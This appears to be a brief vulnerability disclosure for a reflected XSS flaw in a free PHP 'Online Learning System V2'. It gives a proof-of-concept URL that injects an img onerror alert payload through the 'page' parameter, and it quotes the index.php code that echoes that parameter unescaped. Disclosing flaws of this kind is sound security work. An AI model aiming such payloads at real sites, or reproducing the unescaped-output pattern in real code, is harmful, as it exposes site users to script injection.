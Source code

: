 ### Online Learning System V2 - XSS

### Date: 2024-02/27
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/14929/online-learning-system-v2-using-php-free-source-code.html
### Tested on: MacOs13.5 + phpstudy

# /index.php（XSS）

### Sample request POC #1

```
http://127.0.0.1:8889/?page=a/%3Cimg%20src=%22%22%20onerror=%22alert(1)%22%3E
```

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1709030825512.jpg "Online Learning System V2")

### Vulnerability code
index.php:19
```
<!DOCTYPE html>
<html lang="en" class="" style="height: auto;">
<?php require_once('config.php'); ?>
 <?php require_once('inc/header.php') ?>
  <body class="hold-transition layout-top-nav" >
    <div class="wrapper">
     <?php require_once('inc/topBarNav.php') ?>
              
     <?php $page = isset($_GET['page']) ? $_GET['page'] : 'portal';  ?>
      <!-- Content Wrapper. Contains page content -->
      <div class="content-wrapper" style="min-height: 567.854px;">
        <!-- Content Header (Page header) -->
        <div class="content-header">
          <div class="container">
            <div class="row mb-2">
              <div class="col-sm-6">
                <h1 class="m-0"><?php 
$_p = explode("/",$page);
echo (isset($_p[1])) ? ucwords(str_replace("_", " ",$_p[1])) : ucwords(str_replace("_", " ",$_p[0])) ;
?></h1>
...
```
